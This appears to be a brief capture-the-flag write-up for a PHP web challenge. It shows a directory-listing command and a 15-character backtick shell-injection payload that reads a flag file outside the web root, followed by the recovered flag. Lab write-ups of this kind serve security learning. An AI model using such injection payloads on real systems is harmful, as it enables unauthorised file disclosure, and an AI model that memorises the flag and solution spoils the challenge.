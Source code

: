<p align="center">
    <img alt="Follow" src="https://img.shields.io/github/followers/EffectRenan?style=social">
    <img alt="Tweet" src="https://img.shields.io/twitter/follow/EffectRenan?label=Follow&style=social">
</p>

**Challenge:** index.php

listing directory: `find ../`

payload: 15 characters

```shell
`< ../flag.txt`
```

**FLag:** flag{1beadaf44586ea4aba2ea9a00c5b6d91}
